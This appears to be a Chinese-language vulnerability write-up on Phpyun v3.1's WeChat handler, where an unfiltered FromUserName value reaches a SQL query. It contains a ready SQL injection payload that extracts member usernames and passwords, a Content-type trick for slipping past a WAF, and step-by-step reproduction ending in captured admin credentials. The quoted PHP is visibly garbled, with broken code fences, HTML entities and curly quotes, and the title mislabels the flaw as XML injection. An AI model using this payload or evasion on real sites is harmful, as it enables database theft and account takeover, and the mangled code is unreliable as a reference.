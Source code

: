 ```yaml
---
title: "Phpyun v3.1 xml 注入漏洞"
id: zhfly3090
---
```


# Phpyun v3.1 xml 注入漏洞

## 一、漏洞简介

函数过滤不严谨，用户POST过去的内容没有进行任何过滤，导致攻击者可以利用XML实体进行注入，从而获取数据库敏感信息

## 二、漏洞影响

3.1 build14061

## 三、复现过程

### 漏洞分析

本次漏洞文件位于 `weixin/model/index.class.php` ，代码如下：

private function responseMsg()
{
$postStr = $GLOBALS["HTTP_RAW_POST_DATA"];

```
if (!empty($postStr)){

```
 $postObj = simplexml_load_string($postStr, 'SimpleXMLElement', LIBXML_NOCDATA);
          $fromUsername = $postObj-&gt;FromUserName;
          $toUsername = $postObj-&gt;ToUserName;
          $keyword = trim($postObj-&gt;Content);
          $time = time();
          $textTpl = "&lt;xml&gt;
 &lt;![CDATA[%s]]&gt;
 &lt;![CDATA[%s]]&gt;
 %s
 &lt;![CDATA[%s]]&gt;
 &lt;![CDATA[%s]]&gt;
 0
 &lt;/xml&gt;"; 
```

if(!empty( $keyword ))

{

$msgType = “text”;

$contentStr = “Welcome to wechat world!”;

$resultStr = sprintf($textTpl, $fromUsername, $toUsername, $time, $msgType, $contentStr);

echo $resultStr;

}else{

echo “Input something…”;

}

```
 }else {
   echo "";
   exit;
  } 
``` `}` 
```

这里将$postStr = $GLOBALS["HTTP_RAW_POST_DATA"]，通过 simplexml_load_string解析后的内容，将其直接带入了$textTpl。

然而$postStr = $GLOBALS["HTTP_RAW_POST_DATA"] ，直接获取了POST过来的XML内容，没有经过任何处理，并在最后将其输出。
if($MsgType=='event')
{
$MsgEvent = $postObj->Event;
if ($MsgEvent=='subscribe')
{
$centerStr = "config['sy_webname'])."！/n 1：您可以直接回复关键字如【销售】、【南京 销售】、【南京 销售 XX公司】查找您想要的职位/n绑定您的账户体验更多精彩功能/n感谢您的关注！]]>";
$this->MsgType = 'text';

```
 }elseif ($MsgEvent=='CLICK')
  {
   $EventKey = $postObj->EventKey;
   if($EventKey=='我的帐号'){
    $centerStr = $this->bindUser($fromUsername);

}elseif($EventKey==‘我的消息’)

{

$centerStr = $this->myMsg($fromUsername);

}elseif($EventKey==‘面试邀请’)

{

$centerStr = $this->Audition($fromUsername);

}elseif($EventKey==‘简历查看’)

{

```
$centerStr = $this-&gt;lookResume($fromUsername); 
```

}elseif($EventKey==‘刷新简历’)

{

```
$centerStr = $this-&gt;refResume($fromUsername); 
``` 
```

从上述代码可以看出来，当满足那上面的条件后都会进入不同的相应的函数，但是都会进入一个名为`isBind`函数。

接下来追踪isBind函数：

private function isBind($wxid='')
{

```
if($wxid)
{
 $User = $this->obj->DB_select_once("member","`wxid`='".$wxid."'","`uid`,`username`");
}
if($User['uid']>0)
{
 $User['bindtype'] = '1';
 $User['cenetrTpl'] = "<![CDATA[您的".iconv('gbk','utf-8',$this->config['sy_webname'])."帐号：".$User['username']."已成功绑定！ /n/n/n 您也可以config['sy_weburl']."/wap/index.php?m=login&wxid=".$wxid."/">点击这里进行解绑或绑定其他帐号]]>";

}else{

$Token = $this->getToken();

$Url = ‘[https://api.weixin.qq.com/cgi-bin/user/info?access_token=’.$Token.’&openid=’.$wxid.’&lang=zh_CN](https://api.weixin.qq.com/cgi-bin/user/info?access_token='.%24Token.'&openid='.%24wxid.'&lang=zh_CN)’;

$CurlReturn  = $this->CurlPost($Url);

$UserInfo    = json_decode($CurlReturn);

$wxid        = $wxid;

$wxname      = $UserInfo->nickname;

$this->config[‘token_time’] = time();

$User[‘cenetrTpl’] = ‘<![CDATA[您还没有绑定帐号，config[‘sy_weburl’].’/wap/index.php?m=login&wxid=’.$wxid.’">点击这里进行绑定!]]>’;

}

return $User; `}` 
```

可以看到，从始至终wxid变量始终没有经过任何过滤，在第一行的`$wxid`就是我们传进来的FromUserName的值，可以直接进入SQL语句，进行任意注入。

因此我们可以针对其构造Payload，内容如下：

一般来说，我们只需要将Payload以POST形式的数据发出去，就可以成功的获取数据库敏感信息，但是服务器如果有WAF，提交的恶意数据必然会被拦截，因此，我们需要修改HTTP头，伪装成XML就可以不受到WAF的拦截：

```
Content-type:text/xml;charset=utf-8 
```

### 漏洞复现

我们首先打开目标站点，点击网页左侧注册按钮，首先注册一个账号：

![image](../img/5cab61023ded42d334495b61bb74b950.png)

这个时候已经是登录状态，我们按`F9` 调出 `Hack Bar` 的界面，点击`Enable Post data` ，将Payload写入输入框，如下图所示：

![image](../img/d2bef9ab9703693df03b71a7c24c8102.png)

#### payload文件:

##### 注:payload文件内容需手动输入相应位置

```
<?xml version="1.0" encoding="utf-8"?>
  <xml>
    1111
    1111' and 1=2 union select 1,(select concat(username,password) from phpyun_member limit 0,1)#
    1402550611
    event
    CLICK
    我的账号
    0
  </xml> 
```

接下来还需要修改HTTP头，伪装成XML，点击浏览器上方工具栏，打开`Tamper Data` ，点击启动。

![image](../img/f95383a207528fddfb49ec6bbc7cf7dd.png)

现在前提工作已经做好，接下来重新访问网站，Tamper Data 就会抓取到数据包，再对数据包进行更改，操作如图：

![image](../img/a919a67706dd098587f6bcebbbc53036.png)

然后点击确定就可以将构造好的数据包发出去：

![image](../img/3532eb0a626bc91b65be0eb0f379fd77.png)

成功获取管理员账号密码。

## 参考链接

> https://blog.csdn.net/whatiwhere/article/details/84862236